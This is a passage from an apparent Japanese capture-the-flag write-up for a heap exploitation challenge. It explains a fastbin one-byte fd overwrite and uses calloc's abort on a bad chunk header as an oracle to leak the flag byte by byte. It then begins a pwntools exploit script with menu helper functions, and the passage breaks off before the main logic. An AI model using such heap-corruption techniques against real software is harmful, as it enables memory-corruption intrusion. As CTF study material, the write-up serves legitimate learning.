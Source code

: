 callocは何故かtcacheから確保しないのでfastbinを使う。そのためにまずはtcacheを全部埋める。
今回はfdを書き換えられるサイズと、その書き込みの踏み台にするチャンクのサイズの2つを使う。
次のようなチャンク配置を用意する

```
target: Bとアドレスの最下位バイトだけが違うチャンク
A(freed -> used): read_flagで指定するチャンク
B(freed): fd -> somewhere
C(freed): fd -> B, read_flagでfdを書き換えてfdをtargetに向ける
```

インデックスが2つまでしか持てないという都合で一旦fastbinに退避させておいたAを再度確保して`read_flag`の書き込み先に指定し、`at`の指定でCのfdの末尾1バイトを変えることでtarget付近にfdを向ける
フラグの形式は前述した通りなので`C->fd`の末尾は`0x30 ~ 0x39, 0x61 ~ 0x66`になる。よってもしここにCと同じサイズのチャンクヘッダがあれば何度かのcallocでここが確保されるはずである。
では逆にここに無かった場合はどうなるかというとfastbinには確保時にチャンクのサイズヘッダを確認するという処理が走るのでもしまともなサイズヘッダが無ければabortする。というわけでこれがフラグ判定オラクルになる
そういうわけでtargetチャンクを生成する際にどの文字がフラグに来るかを想定し、事前にチャンクヘッダを用意しておく

## Code

```python
from pwn import p64, u64, ELF, process, remote


def select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(str(sel))


def alloc(s, idx, size, data=b"/bin/sh"):
    select(s, 0)
    s.recvuntil(b"index > ")
    s.sendline(str(idx))
    s.recvuntil(b"size > ")
    s.sendline(str(size))
    s.recvuntil(b"data > ")
    s.sendline(data)


def dealloc(s, idx):
    select(s, 1)
    s.recvuntil(b"index > ")
    s.sendline(str(idx))


def _read(s, idx, at):
    select(s, 2)
    s.recvuntil(b"index > ")
    s.sendline(str(idx))
    s.recvuntil(b"at > ")
    s.sendline(str(at))


if __name__ == "__main__":
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    """
        - deallocate時にポインタはクリアされる
        - フラグを1文字だけ読み込んでHeapからの相対書き込みが可能
```